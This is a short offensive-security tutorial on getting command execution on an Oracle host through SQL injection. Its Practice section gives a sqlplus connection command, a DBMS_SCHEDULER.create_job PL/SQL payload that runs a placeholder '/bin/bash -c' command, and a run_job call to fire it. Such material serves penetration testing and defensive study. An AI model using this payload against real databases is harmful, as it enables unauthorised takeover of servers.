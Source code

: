 ```yaml
---
title: Exploiting Oracle DBMS_SCHEDULER for Command Execution
description: Learn to exploit Oracle DBMS_SCHEDULER jobs for executing shell commands
  via SQL injection.
keywords:
- DBMS_SCHEDULER
- Oracle SQL injection
- command execution
- SQL*Plus
- external job execution
- malicious SQL
- Oracle vulnerability
---
```


# DBMS_SCHEDULER Jobs

## Context

This article is intended to guide you through exploiting Oracle's DBMS_SCHEDULER to execute external commands via SQL injection. This technique allows an attacker to compromise an Oracle database by executing shell commands, potentially taking control of the underlying operating system. A solid understanding of Oracle DBMS_SCHEDULER and Oracle SQL is assumed.

## Theory

### DBMS_SCHEDULER.create_job Functionality

The `DBMS_SCHEDULER` package provides the ability to schedule and execute jobs within Oracle databases. This feature enables database administrators to automate routine tasks by running PL/SQL code or external scripts. However, if not properly secured, this functionality can be misused to create jobs that execute arbitrary commands, posing a significant security risk.

### External Job Execution Risks

DBMS_SCHEDULER can be configured to run jobs that execute commands at the operating system level. This capability introduces security risks, especially when external jobs are configured incorrectly. Through SQL injection, malicious actors can create or modify jobs to run unauthorized commands, potentially leading to full system compromise.

### Oracle SQL Injection Exploitation

SQL injection provides a pathway to manipulate `DBMS_SCHEDULER` for executing external commands. Attackers can inject SQL code that creates or modifies jobs without proper authorization. Bypassing input validation mechanisms is a crucial step in successfully injecting malicious SQL payloads.

## Practice

### Exploiting DBMS_SCHEDULER to Execute External Commands

To exploit `DBMS_SCHEDULER` for executing external commands, follow these steps:

1. **Connect to the Oracle Database**

    Use SQL*Plus to establish a connection to the Oracle database.
    
    ```bash
    sqlplus 'username/password@//host:port/service_name'
    ```

2. **Inject SQL to Create a Malicious Job**

    Inject a SQL payload to create a new job that runs a shell command. This payload utilizes the `DBMS_SCHEDULER.create_job` procedure.
    
    ```sql
    BEGIN 
        DBMS_SCHEDULER.create_job(
            job_name => 'malicious_job',
            job_type => 'EXECUTABLE',
            job_action => '/bin/bash -c "<malicious_command>"',
            enabled => TRUE
        ); 
    END;
    ```

    This command creates a job named `malicious_job` that, when executed, runs the specified shell command on the system.

3. **Execute the Created Job**

    Run the job you've created with the following SQL command:
    
    ```sql
    EXEC DBMS_SCHEDULER.run_job('malicious_job');
    ```

    This command forces the scheduler to execute the job immediately, thereby executing your arbitrary command on the host system.

The successful execution of these steps results in arbitrary command execution on the host system, potentially giving the attacker control over the database server.

## Tools

- **sqlplus**: A command-line tool used to connect to Oracle databases, enabling SQL execution and database manipulation.